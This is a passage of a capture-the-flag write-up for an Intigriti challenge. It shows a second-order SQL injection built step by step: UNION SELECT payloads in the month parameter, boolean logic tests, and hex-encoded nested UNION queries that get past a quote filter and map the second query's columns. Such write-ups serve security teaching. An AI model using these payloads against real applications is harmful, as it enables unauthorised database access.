 ```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,1337,1337,1,1337
```
Hello `Anton`! Looks like there is indeed a second query happening.
Last thing, to check which column is the author id.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,1337,1337,1337,1337
```
It's column `4`. If `Anton` has id `1` maybe `Jake` has id `2`

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 0,0,0,2,0
```
Correct. As id `2` is used for a second query it will probably again be susceptible 
to SQL injection. Let's try first with some logic injection again.

`999 or true` returns alls rows and will probably then show the first name.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 0,0,0,999 or true,0
```

Right,`Anton` shows up. Now `999 or false` will show nothing.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 0,0,0,999 or false,0
```
Oh?! What's that. Again `Anton`. Something is wrong here. We realize that we 
will have to be careful. We don't want the `999 or false` be evaluated in
the first injection but in the second. Best to pass it as a simple string into
the second. As we can't use `"` or `'` we will fallback on the hex encoding.

`999 or false` in hex is `0x393939206F722066616C7365`.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 0,0,0,0x393939206F722066616C7365,0
```
Empty, nice. Now it really works. We now have to do the same thing like before.
Figure out how many columns the second query returns to construct a valid
`union select`. But this time every time hex encoded.

```
0 union select 1      => 0x3020756E696F6E2073656C6563742031 
0 union select 1,2    => 0x3020756E696F6E2073656C65637420312C32
0 union select 1,2,3  => 0x3020756E696F6E2073656C65637420312C322C33

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999%20union%20select%200,0,0,0x3020756E696F6E2073656C65637420312C322C33,0
```
And bingo. After checking `3` times we see the integer `2` appear in the 
place of the author name. We know learned the second SQL query returns `3` columns and
the author is expected in the `2` place.
